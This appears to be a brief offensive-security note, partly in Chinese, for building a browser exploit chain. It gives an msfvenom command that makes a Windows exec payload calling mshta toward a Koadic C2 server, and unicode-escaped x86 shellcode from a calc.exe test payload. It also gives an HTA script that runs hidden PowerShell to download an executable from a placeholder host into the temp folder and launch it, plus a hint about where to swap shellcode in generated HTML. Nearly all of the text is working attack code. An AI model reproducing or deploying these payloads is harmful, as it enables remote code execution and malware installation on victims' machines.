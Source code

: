 

msfvenom -p windows/exec cmd='mshta koadic 的地址' -f js_le exitfunc=thread -a x86

测试payload
msfvenom -p windows/exec cmd=calc.exe -f js_le exitfunc=thread -a x86
%ue8fc%u0082%u0000%u8960%u31e5%u64c0%u508b%u8b30%u0c52%u528b%u8b14%u2872%ub70f%u264a%uff31%u3cac%u7c61%u2c02%uc120%u0dcf%uc701%uf2e2%u5752%u528b%u8b10%u3c4a%u4c8b%u7811%u48e3%ud101%u8b51%u2059%ud301%u498b%ue318%u493a%u348b%u018b%u31d6%uacff%ucfc1%u010d%u38c7%u75e0%u03f6%uf87d%u7d3b%u7524%u58e4%u588b%u0124%u66d3%u0c8b%u8b4b%u1c58%ud301%u048b%u018b%u89d0%u2444%u5b24%u615b%u5a59%uff51%u5fe0%u5a5f%u128b%u8deb%u6a5d%u8d01%ub285%u0000%u5000%u3168%u6f8b%uff87%ubbd5%u1de0%u0a2a%ua668%ubd95%uff9d%u3cd5%u7c06%u800a%ue0fb%u0575%u47bb%u7213%u6a6f%u5300%ud5ff%u6163%u636c%u652e%u6578%u4100

`hta code`
    <script>
    a=new ActiveXObject("WScript.Shell");
    a.run('%SystemRoot%/system32/WindowsPowerShell/v1.0/powershell.exe -windowstyle hidden (new-object System.Net.WebClient).DownloadFile(\'http://xxx.com/xxx.exe\', \'c:/windows/temp/xxx.exe\'); c:/windows/temp/xxx.exe', 0);window.close();
    </script>
    
    
    
    
    生成后打开html文件夹更改166行左右的shellcode位置
